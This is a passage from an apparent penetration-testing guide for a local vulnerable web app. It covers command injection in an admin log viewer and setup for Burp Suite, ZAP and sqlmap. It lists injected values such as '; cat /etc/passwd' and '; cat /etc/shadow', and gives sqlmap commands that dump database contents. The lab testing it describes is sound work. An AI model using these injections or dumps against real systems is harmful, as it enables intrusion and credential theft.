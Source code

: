 ### 9. Command Injection

**Location**: Admin log viewer
**Vulnerability**: Direct command execution

#### Test Steps:
1. Login as admin
2. Go to System Logs
3. In the log file path, enter: `; cat /etc/passwd`
4. **Expected Result**: Should display system password file

#### Additional Command Injection Tests:
```
; ls -la
; whoami
; id
; cat /etc/shadow
```

## 🛠 Testing Tools Setup

### Burp Suite
1. Configure browser to use Burp proxy (127.0.0.1:8080)
2. Intercept requests and modify parameters
3. Use Repeater for manual testing
4. Use Intruder for automated attacks

### OWASP ZAP
1. Spider the application to discover all pages
2. Run active scan to detect vulnerabilities
3. Use Fuzzer for parameter testing
4. Review scan results and verify manually

### sqlmap
```bash
# Basic scan
sqlmap -u "http://localhost:5000/search?q=test"

# Database enumeration
sqlmap -u "http://localhost:5000/search?q=test" --dbs

# Table enumeration
sqlmap -u "http://localhost:5000/search?q=test" --tables

# Data extraction
sqlmap -u "http://localhost:5000/search?q=test" --dump
```

## 📊 Vulnerability Severity Levels
